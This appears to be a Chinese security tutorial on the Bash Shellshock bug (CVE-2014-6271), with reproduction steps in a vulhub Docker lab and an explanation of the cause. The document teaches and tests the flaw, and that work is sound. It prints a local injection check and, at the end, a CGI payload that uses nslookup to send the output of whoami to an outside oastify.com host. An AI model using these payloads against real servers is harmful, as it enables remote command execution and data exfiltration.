




#### 漏洞简介

> GNU Bash 4.3及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行Shell命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用Bash Shell之前可以用构造的值创建环境变量。这些变量可以包含代码，在Shell被调用后会被立即执行。
>
> 这个漏洞的英文是：**ShellShock**，中文名被XCERT命名为：破壳漏洞。
>
> 该漏洞在Red Hat、CentOS、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10中均拥有存在CVE-2014-6271（即“破壳”漏洞）漏洞的Bash版本，同时由于Bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用Bash的Unix、Linux、Mac OS X，而针对这些操作系统管理下的数据均存在高危威胁。
>
> 漏洞的利用方式会通过与Bash交互的多种应用展开，包括HTTP、OpenSSH、DHCP等

#### 漏洞复现

采用vulhub靶场，在bash目录下，进入CVE-2014-6271



```shell
# 起服务
sudo docker-compose up -d
# 进入容器
sudo docker exec -it id /bin/bash
# 本地验证漏洞
env x='() { :;}; echo shellshocked' bash –c "echo hi"
```

输入下列内容说明漏洞存在



在没有该漏洞的bash输入上述验证漏洞的命令，我们可以发现没有输出`shellshocker`字符串



#### 原理

要理解漏洞原因，我们先理解我们验证漏洞的命令，`env`命令的作用用于查看和设置环境变量，但是和set的区别在于，当设置环境变量时，它常常和其他命令结合使用，设置的环境变量在后续命令的运行环境中，比如这里为`bash -c "echo hi"`设置了环境变量x。

在shell中，如果父进程中设置了一个函数a，子进程是无法访问到该函数的



一种解决方法是如我们之前的命令，设置一个环境变量让子进程继承，子进程就可以调用该函数。

#### 利用场景

* 一些CGI程序的场景

```payload
# 外带命令
() { :; }; /usr/bin/nslookup $(whoami).n0ouqyl17ivva54cpmbecgq9z05rtshh.oastify.com
```

